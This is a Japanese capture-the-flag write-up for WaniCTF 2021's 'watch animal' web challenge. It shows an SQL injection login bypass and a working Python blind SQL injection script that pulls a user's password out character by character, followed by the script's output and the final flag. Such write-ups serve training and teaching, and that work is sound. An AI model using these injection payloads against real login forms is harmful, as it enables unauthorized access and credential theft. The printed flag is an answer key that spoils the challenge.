


# watch animal (219pt Very hard)
# 問題文

スーパーかわいい動物が見れるWebサービスを作ったよ。

wanictf21spring@gmail.com

のメアドの人のパスワードがフラグです。

https://watch.web.wanictf.org/

# やったこと

与えられたリンクにアクセスすると，ログイン画面が表示された．



おもむろに Email addressに"wanictf21spring@gmail.com"を，
Passwordに"'OR 1=1 -- "を入力したところ，ログインが成功し，以下のページが表示された．



フラグはこのユーザのパスワードである．
ログイン出来る or ログインできないの情報を使ってパスワードを一文字づつ推測する方法でパスワードを探索することにした．

この方法をPythonを使って自動化した．

```python
import requests

def attack(ans):
    url = 'https://watch.web.wanictf.org/'
    
    cs = list(map(str, range(10)))
    cs += [chr(0x41 + i) for i in range(26)]
    cs += [chr(0x61 + i) for i in range(26)]
    cs += ['_', '-', '.', '$', '@', '!', '?', '{', '}']
    
    for c in cs:
        data = {'email': 'wanictf21spring@gmail.com', 'password': "'OR password LIKE BINARY '{}%' -- ".format(ans + c)}

        ret = requests.post(url, data=data)
        print(data)

        # print('Failed' in ret.text, len(ret.text))
        if not 'Failed' in ret.text:
            ans += c
            return ans

if __name__ == "__main__":
    ans = ''

    while True:
        ans = attack(ans)
        print('password:', ans)
```

```
$python solver.py

...
{'email': 'wanictf21spring@gmail.com', 'password': "'OR password LIKE BINARY 'FLAG_bl1ndSQLi_!%' -- "}
{'email': 'wanictf21spring@gmail.com', 'password': "'OR password LIKE BINARY 'FLAG_bl1ndSQLi_?%' -- "}
{'email': 'wanictf21spring@gmail.com', 'password': "'OR password LIKE BINARY 'FLAG_bl1ndSQLi_{%' -- "}
{'email': 'wanictf21spring@gmail.com', 'password': "'OR password LIKE BINARY 'FLAG_bl1ndSQLi_}%' -- "}
password: None
Traceback (most recent call last):
  File "solver.py", line 26, in <module>
    ans = attack(ans)
  File "solver.py", line 12, in attack
    data = {'email': 'wanictf21spring@gmail.com', 'password': "'OR password LIKE BINARY '{}%' -- ".format(ans + c)}
TypeError: unsupported operand type(s) for +: 'NoneType' and 'str'
```

フラグっぽい文字列が得られた．

FLAG_bl1ndSQLi_

_を{}に変えたものがフラグだった．

# フラグ
FLAG{bl1ndSQLi}

